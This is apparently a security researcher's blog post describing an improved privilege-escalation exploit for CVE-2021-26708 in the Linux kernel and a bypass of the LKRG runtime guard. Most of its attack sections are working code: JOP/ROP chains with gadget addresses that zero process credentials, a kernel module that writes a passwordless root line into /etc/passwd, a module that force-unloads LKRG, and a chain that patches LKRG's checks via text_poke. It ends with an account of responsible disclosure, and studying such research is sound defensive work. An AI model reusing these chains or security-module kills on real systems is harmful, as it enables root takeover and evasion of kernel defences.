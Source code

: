 ```yaml
---
layout: post
title:  "Improving the exploit for CVE-2021-26708 in the Linux kernel to bypass LKRG"
date:   2021-08-25 13:37:00 +0300
---
```


This is the follow-up to my research described in the article "[Four Bytes of Power: Exploiting CVE-2021-26708 in the Linux kernel][1]." My PoC exploit for CVE-2021-26708 had a very limited facility for privilege escalation, and I decided to continue my experiments with that vulnerability. This article describes how I improved the exploit, added a full-power ROP chain, and implemented a new method of bypassing the [Linux Kernel Runtime Guard][2] (LKRG).

Today, I gave [a talk at ZeroNights 2021][3] on this topic ([slides](/img/CVE-2021-26708_LKRG_bypass.pdf)). Prepare for lots of assembly. Let's go!

First of all, the PoC demo [video][4]:
<div style="position:relative;padding-top:56.25%;">
  <iframe src="https://www.youtube.com/embed/O6rsuGVXkmE" frameborder="0" allowfullscreen
    style="position:absolute;top:0;left:0;width:100%;height:100%;"></iframe>
</div>
<br/>

## Limited privilege escalation

In the [first article][1], I described how the race condition in Linux virtual sockets can be leveraged for 4-byte memory corruption, which I gradually turned into arbitrary read/write of kernel memory. In this section, I will briefly summarize how the privilege escalation was gained and why it is limited (see the [first article][1] for more details).

Arbitrary write was performed via control-flow hijack using the `destructor_arg` callback of an overwritten `sk_buff` kernel object:

<center><img src="/img/skb_payload.png" width="85%"></center>
<br/>

This callback has the following prototype:

```c
void (*callback)(struct ubuf_info *, bool zerocopy_success);
```

When the kernel calls it in [`skb_zcopy_clear()`][5], the `RDI` register stores the first function argument, which is the address of the `ubuf_info` structure itself. The `RSI` register stores the second function argument, which is `1`.

The contents of `ubuf_info` are controlled by the attacker, which is great. However, the first 8 bytes of it are occupied by the callback function pointer. You can see this on the diagram above. That's a severe constraint! So, for stack pivoting, the ROP gadget should look like this:

```
mov rsp, qword ptr [rdi + 8] ; ret
```

Unfortunately, there is nothing similar to that in the Fedora kernel binary `vmlinuz-5.10.11-200.fc33.x86_64`. With [`ROPgadget`][8], however, I found a single gadget that fits these constraints and performs arbitrary write without stack pivoting:

```
mov rdx, qword ptr [rdi + 8] ; mov qword ptr [rdx + rcx*8], rsi ; ret
```

As I mentioned earlier, `RDI` stores the address of the kernel memory with data controlled by the attacker. `RSI` stores 1 and `RCX` stores 0. In other words, this gadget writes seven bytes with 0 and one byte with 1 at the memory address controlled by the attacker. For privilege escalation, my PoC exploit wrote zero to `uid`, `gid`, `effective uid`, and `effective gid` in the process credentials.

I was happy to have invented this strange arbitrary write primitive and managed to perform privilege escalation! However, I was not satisfied with this solution because it didn't provide me the full power of ROP. Moreover, I had to hijack the kernel control-flow twice to overwrite all the requisite fields in `struct cred`. That decreased the exploit stability.

I had some rest and then decided to explore available ROP gadgets once again.

## Registers under attacker control

First of all, I revisited the state of CPU registers at the moment of the control-flow hijack. I inserted the breakpoint into [`skb_zcopy_clear()`][5] that executes the `destructor_arg` callback:

```console
$ gdb vmlinux
gdb-peda$ target remote :1234
gdb-peda$ break ./include/linux/skbuff.h:1481
```

This is what the debugger shows when the kernel hits the breakpoint and is about to execute the callback:

<center><img src="/img/control_flow_hijack_regs.png" width="100%"></center>
<br/>

Which kernel pointers do the CPU registers store? `RDI` and `R8` contain the `ubuf_info` pointer mentioned earlier. Dereferencing that pointer gives the callback function pointer that is loaded to `RAX`. `R9` stores the address of some kernel stack memory (it's close to the `RSP` value). The `R12` and `R14` registers contain an address in the kernel heap, but I don't know the object it points to.

Additionally, the `RBP` register contains the address of `skb_shared_info`. This is the address of my `sk_buff` object from `kmalloc-4k` plus `SKB_SHINFO_OFFSET`, which is `3776` or `0xec0` (see more info on that in the [first article][1]).

This kernel address in the `RBP` register filled me with hope again because it points to the kernel memory under the attacker's control. So, I started to search for ROP/JOP gadgets that can exploit it.

## Mysterious JOP gadgets

I started to examine all gadgets involving `RBP` and eventually found a lot of JOP gadgets that look like this one:

```
0xffffffff81711d33 : xchg eax, esp ; jmp qword ptr [rbp + 0x48]
```

Cool, `RBP + 0x48` points to the kernel memory under the attacker's control. I understood that I could perform stack pivoting using **a chain of JOP gadgets like this** and then proceed with ordinary ROP. Excellent!

For a quick experiment, I took this `xchg eax, esp ; jmp qword ptr [rbp + 0x48]` gadget, which sets the kernel stack pointer to the userspace memory. First, I double-checked that this gadget resides in the kernel code. Yes, the code of `acpi_idle_lpi_enter()` starts at `0xffffffff81711d30`, and the gadget appears if we look at the code of that function with a three-byte offset:

```
$ gdb vmlinux

gdb-peda$ disassemble 0xffffffff81711d33
Dump of assembler code for function acpi_idle_lpi_enter:
   0xffffffff81711d30 <+0>:	call   0xffffffff810611c0 <__fentry__>
   0xffffffff81711d35 <+5>:	mov    rcx,QWORD PTR gs:[rip+0x7e915f4b]
   0xffffffff81711d3d <+13>:	test   rcx,rcx
   0xffffffff81711d40 <+16>:	je     0xffffffff81711d5e <acpi_idle_lpi_enter+46>

gdb-peda$ x/2i 0xffffffff81711d33
   0xffffffff81711d33 <acpi_idle_lpi_enter+3>:	xchg   esp,eax
   0xffffffff81711d34 <acpi_idle_lpi_enter+4>:	jmp    QWORD PTR [rbp+0x48]
```

However, when I tried to call this gadget during the control-flow hijack, the kernel crashed with a page fault. I spent some time trying to debug it and also asked my friend [Andrey Konovalov][6] whether he had encountered such things in his experience with ROP/JOP. Andrey noticed that some bytes of the code dump printed in the kernel crash report differ from the output of `objdump` for the kernel binary.

<center><img src="/img/missing_gadget.png" width="100%"></center>
<br/>

This was the first time in my practice with the Linux kernel, when this code dump from a crash report proved useful :) I attached the debugger to the live kernel and saw that the code of the `acpi_idle_lpi_enter()` kernel function had actually changed:

```
$ gdb vmlinux
gdb-peda$ target remote :1234

gdb-peda$ disassemble 0xffffffff81711d33
Dump of assembler code for function acpi_idle_lpi_enter:
   0xffffffff81711d30 <+0>:	nop    DWORD PTR [rax+rax*1+0x0]
   0xffffffff81711d35 <+5>:	mov    rcx,QWORD PTR gs:[rip+0x7e915f4b]
   0xffffffff81711d3d <+13>:	test   rcx,rcx
   0xffffffff81711d40 <+16>:	je     0xffffffff81711d5e <acpi_idle_lpi_enter+46>

gdb-peda$ x/2i 0xffffffff81711d33
   0xffffffff81711d33 <acpi_idle_lpi_enter+3>:	add    BYTE PTR [rax],al
   0xffffffff81711d35 <acpi_idle_lpi_enter+5>:	mov    rcx,QWORD PTR gs:[rip+0x7e915f4b]
```

In fact, the Linux kernel can patch its code in the runtime. In this particular case, the code of `acpi_idle_lpi_enter()` is changed by [`CONFIG_DYNAMIC_FTRACE`][7]. This kernel mechanism actually changed many JOP gadgets that interested me! So, I decided to search for ROP/JOP gadgets in the memory of the live virtual machine to avoid such patched cases.

<center><img src="/img/surgeon.jpg" width="85%">
<br/>Evgeny Korneev: Portrait of Academician Lev Bogush (1980)
</center>
<br/>

I tried the `ropsearch` command of the `gdb-peda` tool, but it didn't work for me because of its limited functionality. Then I used another approach and dumped the whole kernel code region into a file using the `gdb-peda dumpmem` command. First, I determined the kernel code location on the virtual machine:

```console
[root@localhost ~]# grep "_text" /proc/kallsyms
ffffffff81000000 T _text
[root@localhost ~]# grep "_etext" /proc/kallsyms 
ffffffff81e026d7 T _etext
```

Then I dumped the memory between `_text` and `_etext` plus the remainder:

```console
gdb-peda$ dumpmem kerndump 0xffffffff81000000 0xffffffff81e03000
Dumped 14692352 bytes to 'kerndump'
```

After this, searching for ROP/JOP gadgets in the raw memory dump with [`ROPgadget`][8] was possible with additional options (kudos to my friend [Maxim Goryachy][9] for that tip):

```console
# ./ROPgadget.py --binary kerndump --rawArch=x86 --rawMode=64 > rop_gadgets_5.10.11_kerndump
```

After that, I was ready to construct a JOP/ROP chain for stack pivoting.

## JOP/ROP chain for stack pivoting

I examined the gadgets with `RBP` left in the kernel memory dump and I managed to construct the stack pivoting chain:

```c
/* JOP/ROP gadget chain for stack pivoting: */

/* mov ecx, esp ; cwde ; jmp qword ptr [rbp + 0x48] */
#define STACK_PIVOT_1_MOV_ECX_ESP_JMP		(0xFFFFFFFF81768A43lu + kaslr_offset)

/* push rdi ; jmp qword ptr [rbp - 0x75] */
#define STACK_PIVOT_2_PUSH_RDI_JMP		(0xFFFFFFFF81B5FD0Alu + kaslr_offset)

/* pop rsp ; pop rbx ; ret */
#define STACK_PIVOT_3_POP_RSP_POP_RBX_RET	(0xFFFFFFFF8165E33Flu + kaslr_offset)
```

1. The first JOP gadget saves the lower 32 bits of `RSP` (the stack pointer register) to `ECX` and jumps to the next location in the controlled memory. This is important because the shellcode should restore the original `RSP` value in the end. Unfortunately, there is no similar JOP gadget that can save the whole `RSP` value. That said, I have managed with half of it, I'll describe my trick very soon.

2. The second JOP gadget pushes the address of `ubuf_info` in `RDI` to the kernel stack and also jumps to the next location in the kernel memory controlled by the attacker.

3. Finally, the third ROP gadget sets the stack pointer to the address of the `ubuf_info` structure. Then it executes one more `pop` instruction, which adds 8 bytes to the address in `RSP`. This is important because the first 8 bytes in `ubuf_info` contain the address of the first JOP gadget, as I described earlier. However, after the second `pop` instruction, `RSP` points to the beginning of the full-power ROP chain. The stack pivoting is done!

That's how the exploit prepares this chain in the memory for overwriting the `sk_buff` kernel object:

```c
/* mov ecx, esp ; cwde ; jmp qword ptr [rbp + 0x48] */
uinfo_p->callback = STACK_PIVOT_1_MOV_ECX_ESP_JMP;

unsigned long *jmp_addr_1 = (unsigned long *)(xattr_addr + SKB_SHINFO_OFFSET + 0x48);
/* push rdi ; jmp qword ptr [rbp - 0x75] */
*jmp_addr_1 = STACK_PIVOT_2_PUSH_RDI_JMP;

unsigned long *jmp_addr_2 = (unsigned long *)(xattr_addr + SKB_SHINFO_OFFSET - 0x75);
/* pop rsp ; pop rbx ; ret */
*jmp_addr_2 = STACK_PIVOT_3_POP_RSP_POP_RBX_RET;
```

Take a look at the diagram that explains what this code is doing:

<center><img src="/img/skb_payload_jop_chain.png" width="100%"></center>
<br/>

## ROP for EoP

When I achieved the stack pivoting, I quickly reimplemented the elevation of privileges (EoP) using ordinary ROP:

```c
unsigned long *rop_gadget = (unsigned long *)(xattr_addr + MY_UINFO_OFFSET + 8);
int i = 0;

#define ROP_POP_RAX_RET			(0xFFFFFFFF81015BF4lu + kaslr_offset)
#define ROP_MOV_QWORD_PTR_RAX_0_RET	(0xFFFFFFFF8112E6D7lu + kaslr_offset)

/* 1. Perform privilege escalation */
rop_gadget[i++] = ROP_POP_RAX_RET;		/* pop rax ; ret */
rop_gadget[i++] = owner_cred + CRED_UID_GID_OFFSET;
rop_gadget[i++] = ROP_MOV_QWORD_PTR_RAX_0_RET;	/* mov qword ptr [rax], 0 ; ret */
rop_gadget[i++] = ROP_POP_RAX_RET;		/* pop rax ; ret */
rop_gadget[i++] = owner_cred + CRED_EUID_EGID_OFFSET;
rop_gadget[i++] = ROP_MOV_QWORD_PTR_RAX_0_RET;	/* mov qword ptr [rax], 0 ; ret */
```

This is simple: the `owner_cred` kernel address was leaked to the userspace using arbitrary read (the [first article][1] describes that in details), and this part of the ROP chain overwrites `uid`, `gid`, `effective uid`, and `effective gid` in the kernel credentials with `0`, which means the superuser.

Then, the ROP chain has to restore the original `RSP` value and continue the system call handling. How did I achieve it? The lower 32 bits of the original stack pointer have been saved in `RCX`. The upper 32 bits of it can be extracted from `R9` (this register stores an address from the kernel stack, as you can see in the `gdb` screenshot that I displayed earlier). Some bit twiddling and we are done:

```c
#define ROP_MOV_RAX_R9_RET		(0xFFFFFFFF8106BDA4lu + kaslr_offset)
#define ROP_POP_RDX_RET			(0xFFFFFFFF8105ED4Dlu + kaslr_offset)
#define ROP_AND_RAX_RDX_RET		(0xFFFFFFFF8101AD34lu + kaslr_offset)
#define ROP_ADD_RAX_RCX_RET		(0xFFFFFFFF8102BA35lu + kaslr_offset)
#define ROP_PUSH_RAX_POP_RBX_RET	(0xFFFFFFFF810D64D1lu + kaslr_offset)
#define ROP_PUSH_RBX_POP_RSP_RET	(0xFFFFFFFF810749E9lu + kaslr_offset)

/* 2. Restore RSP and continue */
rop_gadget[i++] = ROP_MOV_RAX_R9_RET;	    /* mov rax, r9 ; ret */
rop_gadget[i++] = ROP_POP_RDX_RET;	    /* pop rdx ; ret */
rop_gadget[i++] = 0xffffffff00000000lu;
rop_gadget[i++] = ROP_AND_RAX_RDX_RET;	    /* and rax, rdx ; ret */
rop_gadget[i++] = ROP_ADD_RAX_RCX_RET;	    /* add rax, rcx ; ret */
rop_gadget[i++] = ROP_PUSH_RAX_POP_RBX_RET; /* push rax ; pop rbx ; ret */
rop_gadget[i++] = ROP_PUSH_RBX_POP_RSP_RET; /* push rbx ; add eax, 0x415d0060 ; pop rsp ; ret*/
```

The `R9` value is copied to `RAX`. The `0xffffffff00000000` bit mask is saved in `RDX`. Then the bitwise `AND` operation is performed for `RAX` and `RDX`. As a result, `RAX` contains the upper bits of the original stack pointer. After adding the `RCX` value, the `RAX` register contains the original `RSP` value, which is then loaded to `RSP` via `RBX` (unfortunately there is no `mov rsp, rax ; ret` gadget in my kernel memory dump).

The final `RET` instruction returns from the shellcode, the `recv()` syscall handling continues, but now the exploit process runs with `root` privileges.

## Oh, I always wanted to hack LKRG!

The [Linux Kernel Runtime Guard][2] (LKRG) is an amazing project! It's a Linux kernel module that performs runtime integrity checking of the kernel and detects kernel vulnerability exploits. The aim of [LKRG anti-exploit functionality][12] is to detect specific kernel data corruption performed during vulnerability exploitation:

 - Illegal elevation of privileges (EoP)
   - Illegal calling of the `commit_creds()` function
   - Overwriting the `struct cred`
 - Sandbox and namespace escapes
 - Illegal changing of the CPU state (for example, disabling `SMEP` and `SMAP` on `x86_64`)
 - Illegal changing of the kernel `.text` and `.rodata`
 - Kernel stack pivoting and ROP
 - Many more

<center><img src="/img/lkrg.png" width="40%"></center>
<br/>

This project is hosted by [Openwall][11]. It is mostly being developed by [Adam 'pi3' Zabrocki][10] in his spare time. LKRG is currently in a beta version, but developers are trying to keep it super stable and portable across various kernels. Adam also says:

```
We are aware that LKRG is bypassable by design (as we have always spoken openly)
but such bypasses are neither easy nor cheap/reliable.
```

[Ilya Matveychikov][13] has done some work in this area, collecting his LKRG bypass methods in a [separate repository][14]. However, Adam analyzed Ilya's work and [improved LKRG][15] to mitigate these bypass methods.

So, I decided to upgrade my [CVE-2021-26708][0] exploit further and develop a new way to bypass LKRG. Now things get interesting!

My first thought was:

```shell
OK, LKRG is tracking illegal EoP, but it does not track access to '/etc/passwd'.
I can try to bypass it by disabling the root password via '/etc/passwd'!
Executing 'su' after that should look absolutely legal to LKRG.
```

I wrote a quick prototype in the form of a kernel module:

```c
#include <linux/module.h>
#include <linux/kallsyms.h>

static int __init pwdhack_init(void)
{
	struct file *f = NULL;
	char *str = "root::0:0:root:/root:/bin/bash\n";
	ssize_t wret;
	loff_t pos = 0;

	pr_notice("pwdhack: init\n");

	f = filp_open("/etc/passwd", O_WRONLY, 0);
	if (IS_ERR(f)) {
		pr_err("pwdhack: filp_open() failed\n");
		return -ENOENT;
	}

	wret = kernel_write(f, str, strlen(str), &pos);
	printk("pwdhack: kernel_write() returned %ld\n", wret);

	pr_notice("pwdhack: done\n");

	return 0;
}

static void __exit pwdhack_exit(void)
{
	pr_notice("pwdhack: exit\n");
}

module_init(pwdhack_init)
module_exit(pwdhack_exit)

MODULE_LICENSE("GPL v2");
```

This module overwrites the first line in `/etc/passwd` with `root::0:0:root:/root:/bin/bash\n`. This effectively disables the password for `root`, and then an unprivileged user executing `su` freely becomes `root`.

I reimplemented this logic with `filp_open()` and `kernel_write()` in my ROP chain, but it failed to open `/etc/passwd`. It turned out that the kernel checks the process credentials and SELinux metadata even when a file is opened from the kernelspace. Overwriting them before `filp_open()` doesn't help because LKRG tracks them and kills any offending process.

## No more hiding, let's destroy LKRG!

Suddenly I decided not to hide from LKRG. Instead, I got the idea to attack and destroy LKRG from my ROP chain!

<center><img src="/img/snowballs.jpg" width="85%">
<br/>Anatoly Volkov: Snowballs (1957)
</center>
<br/>

The straightforward approach is to unload the LKRG module from the kernel. I made another tiny kernel module to check this hypothesis:

```c
#include <linux/module.h>
#include <linux/kallsyms.h>

static int __init destroy_lkrg_init(void)
{
	struct module *lkrg_mod = find_module("p_lkrg");

	if (!lkrg_mod) {
		pr_notice("destroy_lkrg: p_lkrg module is NOT found\n");
		return -ENOENT;
	}

	if (!lkrg_mod->exit) {
		pr_notice("destroy_lkrg: p_lkrg module has no exit method\n");
		return -ENOENT;
	}

	pr_notice("destroy_lkrg: p_lkrg module is found, remove it brutally!\n");
	lkrg_mod->exit();

	return 0;
}

static void __exit destroy_lkrg_exit(void)
{
	pr_notice("destroy_lkrg: exit\n");
}

module_init(destroy_lkrg_init)
module_exit(destroy_lkrg_exit)

MODULE_LICENSE("GPL v2");
```

It seemed to be an idea that would work; the LKRG module was unloaded. I reimplemented this logic with `find_module()` and LKRG `exit()` in my ROP chain, but it failed. Why? In the middle of `p_lkrg_deregister()`, LKRG calls the `schedule()` kernel function, which has an LKRG hook performing the `pCFI` check. It detects my stack pivoting and kills the exploit process in the middle of the LKRG module unloading. Alas!

I started to think about another approach to destroying LKRG and got the idea to disable `kprobes`. In fact, `kprobes` (and `kretprobes`) are used by LKRG for planting checking hooks all over the kernel code. First, I tried to disable them using an existing `debugfs` interface:

```console
[root@localhost ~]# echo 0 > /sys/kernel/debug/kprobes/enabled
```

This should disarm all enabled `kprobes`. I tried that on a system with a loaded LKRG module, but after a couple of seconds, the kernel hanged completely. There might be some deadlock or infinite loop caused by LKRG, but I didn't spend any more time on that.

Debugging the kernel with LKRG is actually not that convenient. It took me some time to realize why the Linux kernel with LKRG crashes every time I try to debug it. In fact, setting a breakpoint for a kernel function in `gdb` changes the kernel code. So, LKRG in a parallel thread sees that as kernel integrity violation and crashes the kernel unexpectedly for me, while I'm staring at the debugger trying to understand what's going on :)

## A successful attack against LKRG

Finally, I created a working attack against LKRG. In my ROP chain, I patched the LKRG code itself! The first function that I patched is `p_check_integrity()`, which is responsible for checking the Linux kernel integrity. The second function that I patched is `p_cmp_creds()`, which checks the credentials of processes running in the system against the LKRG database to detect illegal elevation of privileges.

I patched these functions with `0x48 0x31 0xc0 0xc3`, which is `xor rax, rax ; ret` or `return 0`. Then, I escalated the privileges. Hurray! Let's look at the final ROP chain:

```c
unsigned long *rop_gadget = (unsigned long *)(xattr_addr + MY_UINFO_OFFSET + 8);
int i = 0;

#define SAVED_RSP_OFFSET	3400

#define ROP_MOV_RAX_R9_RET		(0xFFFFFFFF8106BDA4lu + kaslr_offset)
#define ROP_POP_RDX_RET			(0xFFFFFFFF8105ED4Dlu + kaslr_offset)
#define ROP_AND_RAX_RDX_RET		(0xFFFFFFFF8101AD34lu + kaslr_offset)
#define ROP_ADD_RAX_RCX_RET		(0xFFFFFFFF8102BA35lu + kaslr_offset)
#define ROP_MOV_RDX_RAX_RET		(0xFFFFFFFF81999A1Dlu + kaslr_offset)
#define ROP_POP_RAX_RET			(0xFFFFFFFF81015BF4lu + kaslr_offset)
#define ROP_MOV_QWORD_PTR_RAX_RDX_RET	(0xFFFFFFFF81B6CB17lu + kaslr_offset)

/* 1. Save RSP */
rop_gadget[i++] = ROP_MOV_RAX_R9_RET;	/* mov rax, r9 ; ret */
rop_gadget[i++] = ROP_POP_RDX_RET;	/* pop rdx ; ret */
rop_gadget[i++] = 0xffffffff00000000lu;
rop_gadget[i++] = ROP_AND_RAX_RDX_RET;	/* and rax, rdx ; ret */
rop_gadget[i++] = ROP_ADD_RAX_RCX_RET;	/* add rax, rcx ; ret */
rop_gadget[i++] = ROP_MOV_RDX_RAX_RET;	/* mov rdx, rax ; shr rax, 0x20 ; xor eax, edx ; ret */
rop_gadget[i++] = ROP_POP_RAX_RET;	/* pop rax ; ret */
rop_gadget[i++] = uaf_write_value + SAVED_RSP_OFFSET;
rop_gadget[i++] = ROP_MOV_QWORD_PTR_RAX_RDX_RET; /* mov qword ptr [rax], rdx ; ret */
```

This part reconstructs the original `RSP` value from the bits in `ECX` and `R9` (I described this earlier). Now, however, I save the stack pointer to the `sk_buff` data at `SAVED_RSP_OFFSET` to avoid storing it in a dedicated register.

```c
#define KALLSYMS_LOOKUP_NAME 	(0xffffffff81183dc0lu + kaslr_offset)
#define FUNCNAME_OFFSET_1	3550

#define ROP_POP_RDI_RET				(0xFFFFFFFF81004652lu + kaslr_offset)
#define ROP_JMP_RAX				(0xFFFFFFFF81000087lu + kaslr_offset)

/* 2. Destroy lkrg : part 1 */
rop_gadget[i++] = ROP_POP_RAX_RET;	/* pop rax ; ret */
rop_gadget[i++] = KALLSYMS_LOOKUP_NAME;
		  /* unsigned long kallsyms_lookup_name(const char *name) */
rop_gadget[i++] = ROP_POP_RDI_RET;	/* pop rdi ; ret */
rop_gadget[i++] = uaf_write_value + FUNCNAME_OFFSET_1;
strncpy((char *)xattr_addr + FUNCNAME_OFFSET_1, "p_cmp_creds", 12);
rop_gadget[i++] = ROP_JMP_RAX;		/* jmp rax */
```

This part of the ROP chain calls `kallsyms_lookup_name("p_cmp_creds")`. The `sk_buff` data at `FUNCNAME_OFFSET_1` stores the `"p_cmp_creds"` string. Its address is loaded to `RDI`, which should contain the first function argument according to the calling convention of System V AMD64 ABI.

**Note:** The `lkrg.hide` configuration option is set to 0 by default, which allows attackers to find the LKRG functions easily using `kallsyms_lookup_name()`. There are also other methods to find these functions.

```c
#define XOR_RAX_RAX_RET				(0xFFFFFFFF810859C0lu + kaslr_offset)
#define ROP_TEST_RAX_RAX_CMOVE_RAX_RDX_RET	(0xFFFFFFFF81196AA2lu + kaslr_offset)

/* If lkrg function is not found, let's patch "xor rax, rax ; ret" */
rop_gadget[i++] = ROP_POP_RDX_RET;	/* pop rdx ; ret */
rop_gadget[i++] = XOR_RAX_RAX_RET;
rop_gadget[i++] = ROP_TEST_RAX_RAX_CMOVE_RAX_RDX_RET; /* test rax, rax ; cmove rax, rdx ; ret*/
```

The `kallsyms_lookup_name()` function returns the address of `p_cmp_creds()` in `RAX`. If the LKRG module is not loaded, `kallsyms_lookup_name()` returns `NULL`. I wanted my shellcode to work in both cases and invented this trick:
  1. I found the address of `xor rax, rax ; ret` in the kernel memory dump (defined here as `XOR_RAX_RAX_RET`)
  2. This address is loaded to `RDX`
  3. If `kallsyms_lookup_name("p_cmp_creds")` returns `NULL`, this address is loaded to `RAX`. This is performed using the conditional move instruction in the `test rax, rax ; cmove rax, rdx ; ret` gadget.

Which is great! In other words, if LKRG is loaded, the shellcode patches the code of `p_cmp_creds()` with `xor rax, rax ; ret`. And, if LKRG is absent, the shellcode patches `xor rax, rax ; ret` with the same bytes and avoids the kernel crash. This is performed in the following part of the ROP chain:

```c
#define TEXT_POKE		(0xffffffff81031300lu + kaslr_offset)
#define CODE_PATCH_OFFSET	3450

#define ROP_MOV_RDI_RAX_POP_RBX_RET		(0xFFFFFFFF81020ABDlu + kaslr_offset)
#define ROP_POP_RSI_RET				(0xFFFFFFFF810006A4lu + kaslr_offset)

rop_gadget[i++] = ROP_MOV_RDI_RAX_POP_RBX_RET;
		  /* mov rdi, rax ; mov eax, ebx ; pop rbx ; or rax, rdi ; ret */
rop_gadget[i++] = 0x1337;	   /* dummy value for RBX */
rop_gadget[i++] = ROP_POP_RSI_RET; /* pop rsi ; ret */
rop_gadget[i++] = uaf_write_value + CODE_PATCH_OFFSET;
strncpy((char *)xattr_addr + CODE_PATCH_OFFSET, "\x48\x31\xc0\xc3", 5);
rop_gadget[i++] = ROP_POP_RDX_RET; /* pop rdx ; ret */
rop_gadget[i++] = 4;
rop_gadget[i++] = ROP_POP_RAX_RET; /* pop rax ; ret */
rop_gadget[i++] = TEXT_POKE;
		  /* void *text_poke(void *addr, const void *opcode, size_t len) */
rop_gadget[i++] = ROP_JMP_RAX;	   /* jmp rax */
```

Here, the shellcode prepares the arguments and calls `text_poke()` for code patching:
  1. The address in `RAX` is stored in `RDI` as the first argument of the function. Unfortunately, I couldn’t find a smaller gadget doing that, so here, the ROP chain contains the dummy value for `RBX` that is loaded from the kernel stack in the first gadget
  2. The `sk_buff` data at `CODE_PATCH_OFFSET` stores the patching payload `0x48 0x31 0xc0 0xc3`. Its address is stored in `RSI` as the second argument of the function
  3. The third argument of `text_poke()` is the length of the payload. It is provided via the `RDX` register storing 4.

The [`text_poke()`][18] kernel function updates instructions on a live kernel. It remaps the code page and performs `memcpy()`. This trick is used by `kprobes` and other kernel mechanisms.

Then, the same procedure with `kallsyms_lookup_name()`, `cmove` and `text_poke()` is performed for patching the `p_check_integrity()` function of the LKRG module. When that is done, LKRG is helpless and the shellcode can perform the privilege escalation (as described earlier):

```c
#define ROP_MOV_QWORD_PTR_RAX_0_RET	(0xFFFFFFFF8112E6D7lu + kaslr_offset)

/* 3. Perform privilege escalation */
rop_gadget[i++] = ROP_POP_RAX_RET;		/* pop rax ; ret */
rop_gadget[i++] = owner_cred + CRED_UID_GID_OFFSET;
rop_gadget[i++] = ROP_MOV_QWORD_PTR_RAX_0_RET;	/* mov qword ptr [rax], 0 ; ret */
rop_gadget[i++] = ROP_POP_RAX_RET;		/* pop rax ; ret */
rop_gadget[i++] = owner_cred + CRED_EUID_EGID_OFFSET;
rop_gadget[i++] = ROP_MOV_QWORD_PTR_RAX_0_RET;	/* mov qword ptr [rax], 0 ; ret */
```

In the final part, the ROP chain restores the original `RSP` value from the `sk_buff` data at `SAVED_RSP_OFFSET`, where it was saved in the beginning:

```c
/* 4. Restore RSP and continue */
rop_gadget[i++] = ROP_POP_RAX_RET;		 /* pop rax ; ret */
rop_gadget[i++] = uaf_write_value + SAVED_RSP_OFFSET;
rop_gadget[i++] = ROP_MOV_RAX_QWORD_PTR_RAX_RET; /* mov rax, qword ptr [rax] ; ret */
rop_gadget[i++] = ROP_PUSH_RAX_POP_RBX_RET;	 /* push rax ; pop rbx ; ret */
rop_gadget[i++] = ROP_PUSH_RBX_POP_RSP_RET;
		  /* push rbx ; add eax, 0x415d0060 ; pop rsp ; ret */
```

Then the `recv()` syscall handling continues with `root` privileges.

Phew! That was the most complicated part of the article.

<center><img src="/img/detail.png" width="85%">
<br/>Nikolay Lomakin: First Product (1953)
</center>
<br/>

## Responsible disclosure

On June 10, I disclosed the information about my experiments with LKRG to Adam and Alexander Peslyak aka [Solar Designer][16]. We discussed my LKRG bypass method and exchanged views on LKRG in general.

On July 3, I [disclosed my attack method][19] at the public `lkrg-users` mailing list. As of August 1, this attack method is not mitigated yet.

In my opinion, LKRG is an amazing project. When I started to learn it, I immediately saw that Adam and other contributors had invested a lot of engineering effort and love into this project. At the same time, I believe that detecting post-exploitation and illegal privilege escalation from inside the kernel is impossible. Einstein [said][17]: "We can't solve problems by using the same kind of thinking we used when we created them." In other words, LKRG must be at some other context/layer to detect illegal kernel activity.

I think LKRG can bring much more trouble to attackers if it is ported to a hypervisor (for example, QEMU/KVM) or some FOSS implementation of Arm Trusted Execution Environment (for example, Open-TEE). However, that is a big task, and Adam would need substantial support from the community or maybe from the companies interested in this project.

## Conclusion

In this article, I described how I improved my PoC exploit for [CVE-2021-26708][0] in the Linux kernel. It turned out to be an interesting journey with lots of assembly and return-oriented programming. I searched for the ROP/JOP gadgets in the memory of the live GNU/Linux system and managed to perform stack pivoting in restricted conditions. I also looked at the [Linux Kernel Runtime Guard][2] from the attacker's perspective, developed a new attack against LKRG, and shared my results with the LKRG team.

I believe writing this article is useful for the Linux kernel community, since it shows practical aspects of kernel vulnerability exploitation and defense. I hope you enjoyed it.

[0]: https://nvd.nist.gov/vuln/detail/CVE-2021-26708
[1]: https://a13xp0p0v.github.io/2021/02/09/CVE-2021-26708.html
[2]: https://github.com/openwall/lkrg
[3]: https://zeronights.ru/en/reports-en/improving-the-exploit-for-cve-2021-26708-in-the-linux-kernel-to-bypass-lkrg/
[4]: https://youtu.be/O6rsuGVXkmE
[5]: https://elixir.bootlin.com/linux/v5.10/source/include/linux/skbuff.h#L1470
